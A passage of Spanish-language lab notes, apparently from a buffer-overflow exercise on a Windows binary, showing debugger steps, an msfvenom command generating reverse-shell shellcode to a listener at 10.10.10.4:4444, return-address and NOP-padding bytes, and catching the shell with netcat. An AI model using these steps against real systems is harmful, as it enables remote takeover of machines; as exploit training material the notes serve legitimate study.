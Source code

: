 Volvemos a ejecutar el binario pero clickando a la flecha apuntando a la derecha para poder añadir nuestro pointer
![[Pasted image 20240710094446.png]]

Añadimos el pointer
![[Pasted image 20240710094543.png]]

Damos el OK y nos fijamos en el siguiente campo
![[Pasted image 20240710094700.png]]


## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.4 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20240710102436.png]]

Pegamos el resultado en el payload
![[Pasted image 20240710102413.png]]

Y cambiamos las siguientes variables, donde la variable retn es el número del jmp `311712F3`  pero al revés; y el padding significa el conjunto de datos adicionales que se añaden a la estructura de datos.
```python
retn= "\xf3\x12\x17\x31"
padding = "\x90" * 16
```
![[Pasted image 20240710100031.png]]

Y el resultado del payload quedara así
![[Pasted image 20240710102344.png]]

Ahora nos ponemos en escucha con netcat
![[Pasted image 20240710100156.png]]

Ejecutamos el exploit
![[Pasted image 20240710100528.png]]

Y ya hemos obtenido la reverse shell
![[Pasted image 20240710102312.png]]
